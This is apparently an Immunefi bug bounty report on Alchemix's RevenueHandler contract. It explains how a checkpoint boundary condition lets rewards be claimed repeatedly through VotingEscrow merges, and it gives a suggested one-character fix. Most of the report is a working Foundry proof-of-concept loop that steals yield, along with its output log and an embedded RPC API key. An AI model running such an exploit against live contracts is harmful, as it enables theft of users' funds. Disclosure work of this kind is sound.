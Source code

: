 # 31242 - \[SC - Critical] RevenueHandlercheckpoint allows users to claim ...

Submitted on May 15th 2024 at 19:01:43 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31242

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

The `RevenueHandler` contract receives the revenue from Alchemix protocol. One part of the revenue is sent to the treasury. The rest is distributed to users that have $veToken. Each $veToken can claim rewards once per epoch. Anyone can call the `RevenueHandler.checkpoint` interface to refresh the `currentEpoch`. However, the `checkpoint` interface allows the `currentEpoch` to be updated to the timestamp of the current block, allowing attackers to use `VotingEscrow.merge` to repeatedly claim rewards.

## Vulnerability Details

Please look at the following code. When `block.timestamp` is equal to `currentEpoch + WEEK`, `currentEpoch` is updated to `block.timestamp`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L231
    function checkpoint() public {
        // only run checkpoint() once per epoch
        if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

The `RevenueHandler` contract calculates the number of rewards that can be claimed for a certain $veToken based on the value of the $veToken at the `currentEpoch` time point. Please see the code below.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L314-L324
        for (
            uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
            epochTimestamp <= currentEpoch;
            epochTimestamp += WEEK
        ) {
            uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
            if (epochTotalVeSupply == 0) continue;
            uint256 epochRevenue = epochRevenues[epochTimestamp][token];
            uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
            totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
        }
```

If `currentEpoch` can be set as the timestamp of the current block, then after the user claim the $veToken reward in the current block, he can transfer the value of $veToken to another $veToken through `VotingEscrow.merge` to continue claim it. The attack steps are briefly described below. Please see the PoC for details.

1. When the `block.timestamp` of the block happens to be `currentEpoch + WEEK`, the attacker calls `RevenueHandler.checkpoint` to update `currentEpoch` to `block.timestamp`
2. The attacker mints a $veTokenA and claim the reward
3. The attacker mints a $veTokenTemp worth 1 wei with a cost of `~0`
4. The attacker merges $veTokenA into $veTokenTemp and claim rewards for $veTokenTemp
5. Treat $veTokenTemp as $veTokenA and go back to Step2

Note that all the above steps are run in the same block.

**Suggested fix**

Users should only be able to claim past rewards

```diff
    function checkpoint() public {
        // only run checkpoint() once per epoch
-       if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
+       if (block.timestamp > currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

## Impact Details

Users can claim rewards repeatedly

## References

None

## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..dab62e9 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,62 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 0. Init test env
+        vm.warp((block.timestamp / 2 weeks) * 2 weeks);
+        hevm.startPrank(admin);
+        deal(bpt, admin, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+        veALCX.checkpoint();
+        veALCX.createLock(10000e18, 0, true);
+        hevm.stopPrank();
+
+        // 1. Start test and init BPT token
+        address attacker = address(0xa77ac8e3);
+        hevm.startPrank(attacker);
+        console.log(">>>>> Init balance of rewards token");
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        deal(bpt, attacker, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+
+        // 2. Checkpoint RevenueHandler
+        //    It is required that `block.timestamp` is exactly `currentEpoch + WEEK`, `block.timestamp` is in seconds, so it is likely to happen.
+        deal(bal, address(revenueHandler), 100e18);
+        vm.warp(block.timestamp + 2 weeks);
+        revenueHandler.checkpoint();
+
+        // 3. Start steal rewards
+        //    Step 3 and step 2 exist in the same block
+        console.log(">>>>> Claim the veToken");
+        veALCX.checkpoint();
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), attacker);
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 50 times");
+        for (uint256 i = 0; i < 50; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 100 times");
+        for (uint256 i = 0; i < 100; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 118159985)
Logs:
  >>>>> Init balance of rewards token
  >> bal.balanceOf(attacker): 0
  
  >>>>> Claim the veToken
  >> bal.balanceOf(attacker): 9999000099906589
  
  >>>>> Start steal rewards 50 times
  >> bal.balanceOf(attacker): 509949005095236039
  
  >>>>> Start steal rewards 100 times
  >> bal.balanceOf(attacker): 1509849015085894939
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 458.15ms (442.17ms CPU time)

Ran 1 test suite in 2.09s (458.15ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
